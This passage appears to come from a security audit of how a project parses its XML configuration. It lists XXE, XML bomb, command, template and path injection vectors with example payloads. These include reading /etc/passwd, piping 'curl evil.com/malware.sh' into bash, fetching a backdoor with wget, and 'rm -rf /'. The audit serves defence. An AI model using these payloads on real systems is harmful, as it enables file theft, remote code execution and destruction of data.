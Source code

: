 ## 3. XML and Configuration Injection

### 3.1 XML Injection Vulnerabilities ⚠️ **CRITICAL**

**Location**: PROJECT_CONFIG.xml processing, configuration parsing
**Risk**: Configuration bypass, code injection, system compromise

#### XML Injection Attack Vectors:
```xml
<!-- XML External Entity (XXE) injection -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE project_config [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<project_config>
  <name>&xxe;</name>  <!-- Reads /etc/passwd -->
</project_config>

<!-- XML Bomb (Billion Laughs) -->
<!DOCTYPE project_config [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!-- ... recursive expansion causes memory exhaustion -->
]>

<!-- Command injection via XML -->
<commands>
  <test>$(curl evil.com/malware.sh | bash)</test>
  <lint>`wget evil.com/backdoor` && echo "clean"</lint>
</commands>
```

#### Missing XML Security:
- **XXE Prevention**: No external entity processing disabled
- **XML Bomb Protection**: No expansion limits or detection
- **DTD Validation**: No Document Type Definition restrictions
- **Schema Validation**: No XML schema enforcement

### 3.2 Configuration Value Injection ⚠️ **HIGH**

**Location**: Configuration processing, variable substitution
**Risk**: Command execution, environment manipulation, privilege escalation

#### Configuration Injection Patterns:
```xml
<!-- Environment variable injection -->
<commands>
  <test>$MALICIOUS_VAR && rm -rf /</test>
  <build>${{system('evil_command')}}</build>
</commands>

<!-- Template injection -->
<quality_standards>
  <test_coverage>
    <threshold>{{.__class__.__base__.__subclasses__()[104].__init__.__globals__['sys'].exit()}}</threshold>
  </test_coverage>
</quality_standards>

<!-- Path substitution injection -->
<project_structure>
  <source_directory>${HOME}/../../../etc</source_directory>
</project_structure>
```